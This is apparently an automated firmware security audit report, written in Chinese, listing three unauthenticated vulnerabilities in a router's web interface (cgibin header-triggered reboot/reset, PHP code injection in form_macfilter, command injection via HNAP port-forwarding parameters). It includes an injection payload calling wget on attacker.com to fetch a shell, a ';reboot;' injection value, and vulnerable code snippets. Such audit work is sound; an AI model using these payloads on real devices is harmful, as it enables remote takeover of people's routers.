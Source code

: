 
---
### network_input-cgibin-unauth_op_0x1e094

- **文件路径:** `htdocs/cgibin`
- **位置:** `htdocs/cgibin:0x1e094`
- **类型:** network_input
- **综合优先级分数:** **9.44**
- **风险等级:** 9.0
- **置信度:** 9.8
- **触发可能性:** 10.0
- **查询相关性:** 9.5
- **阶段:** N/A
- **描述:** 高危未授权操作：通过HTTP_MTFWU_ACT头直接触发敏感操作（重启/恢复出厂/固件更新）。触发条件：设置头值为'Reboot'/'FactoryDefault'/'FWUpdate'。无权限验证，直接调用system执行危险命令。
- **关键词:** HTTP_MTFWU_ACT, system, event REBOOT
- **备注:** 可组合固件更新漏洞实现持久化攻击

---
### network_input-form_macfilter-remote_code_execution

- **文件路径:** `htdocs/mydlink/form_macfilter`
- **位置:** `htdocs/mydlink/form_macfilter (具体行号未获取)`
- **类型:** network_input
- **综合优先级分数:** **9.35**
- **风险等级:** 10.0
- **置信度:** 8.5
- **触发可能性:** 9.0
- **查询相关性:** 10.0
- **阶段:** N/A
- **描述:** 未经验证的远程代码执行漏洞。攻击链：HTTP请求含settingsChanged=1参数 → 恶意污染entry_enable_X/mac_hostname_等POST参数 → 参数直接写入/tmp/form_macfilter.php临时文件 → 通过dophp('load')加载执行文件内容。触发条件：攻击者提交含恶意PHP代码的POST请求（如：entry_enable_1=';system("wget http://attacker.com/shell");$a='）。约束条件：仅对MAC地址进行基础验证（get_valid_mac），其他参数无过滤。安全影响：Web权限任意命令执行，完全控制设备。
- **代码片段:**
  ```
  fwrite("a", $tmp_file, "$enable = $_POST[\"entry_enable_\".$i.\"];\n");
  dophp("load",$tmp_file);
  ```
- **关键词:** dophp, fwrite, $_POST, $tmp_file, entry_enable_, mac_hostname_, /tmp/form_macfilter.php, settingsChanged
- **备注:** 关键验证点：1) dophp()在libservice.php中是否执行文件内容 2) runservice("MACCTRL restart")可能扩大攻击面。关联文件：/htdocs/mydlink/libservice.php

---
### network_input-HNAP-command_execution

- **文件路径:** `htdocs/web/hnap/SetFirewallSettings.xml`
- **位置:** `htdocs/cgibin:0x1e478 & 0x1ca80`
- **类型:** network_input
- **综合优先级分数:** **9.35**
- **风险等级:** 9.5
- **置信度:** 9.0
- **触发可能性:** 9.5
- **查询相关性:** 10.0
- **阶段:** N/A
- **描述:** 防火墙配置接口暴露高危攻击面：通过SetFirewallSettings.xml定义的6个参数(SPIIPv4/AntiSpoof/ALG*)传递至后端，但发现更直接的攻击路径：a) SetPortForwardingSettings的LocalIPAddress参数经QUERY_STRING传入CGI，在0x1e478处通过snprintf+popen执行任意命令(如';reboot;') b) 恶意SOAPAction头在0x1ca80处触发system命令执行。触发条件：向80端口发送未授权HNAP请求。约束条件：默认开启HTTP服务且无认证机制。实际影响：完全设备控制(9.5/10风险)
- **代码片段:**
  ```
  snprintf(cmd_buf, 0x3ff, "rndimage %s", getenv("QUERY_STRING")+5);
  popen(cmd_buf, "r");
  ```